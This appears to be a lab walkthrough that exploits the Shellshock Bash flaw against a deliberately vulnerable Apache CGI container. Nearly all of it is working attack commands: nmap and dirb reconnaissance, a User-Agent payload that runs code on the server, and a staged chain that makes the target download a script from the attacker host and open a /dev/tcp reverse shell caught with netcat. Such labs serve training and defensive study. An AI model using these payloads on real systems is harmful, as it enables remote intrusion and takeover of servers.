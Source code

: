 
#### **Attacker: Vulnerability Detection**

```bash
# Install discovery tools
sudo apt install -y dirb nmap

# Scan the server for open ports and services on the vulnerable port
sudo nmap -sS -sV -p 8080 192.168.10.12

# Discover web content, specifically looking for CGI scripts
dirb http://192.168.10.12:8080
```

---

#### **Attacker: Exploitation (Proof of Concept)**

```bash
# Send a payload that instructs the server to create a file in /tmp
# A '500 Internal Server Error' is the expected response
curl -H 'User-Agent: () { :;}; /usr/bin/touch /tmp/pwned' http://192.168.10.12:8080/cgi-bin/vulnerable.sh
```

---

#### **Server: Verify Exploit**

```bash
# Check inside the running Docker container for the file created by the exploit
sudo docker exec vulnerable-apache ls /tmp
# Seeing 'pwned' confirms remote code execution was successful.
```

---

#### **Attacker: Gaining a Reverse Shell**

*This multi-stage attack requires three separate terminals on the Attacker node.*

```bash
# --- Main Terminal: Prepare and send payloads ---

# Create the reverse shell script payload
echo '#!/bin/bash' > shell.sh
echo '/bin/bash -i >& /dev/tcp/192.168.10.11/4444 0>&1' >> shell.sh

# Stage 1: Trigger the vulnerability to make the server download your script
# **IMPORTANT** Ensure this is all on one line
curl -H 'User-Agent: () { :;}; /usr/bin/wget http://192.168.10.11:8000/shell.sh -O /tmp/shell.sh' http://192.168.10.12:8080/cgi-bin/vulnerable.sh

# Stage 2: Trigger the vulnerability again to execute the downloaded script
curl -H 'User-Agent: () { :;}; /bin/bash /tmp/shell.sh' http://192.168.10.12:8080/cgi-bin/vulnerable.sh

# --- Terminal 2: Start a web server to host the payload ---
# Leave this running in the foreground
python3 -m http.server 8000

# --- Terminal 3: Start a listener to catch the reverse shell ---
# Leave this running in the foreground. You should receive a connection after Stage 2.
nc -lvnp 4444
```

---
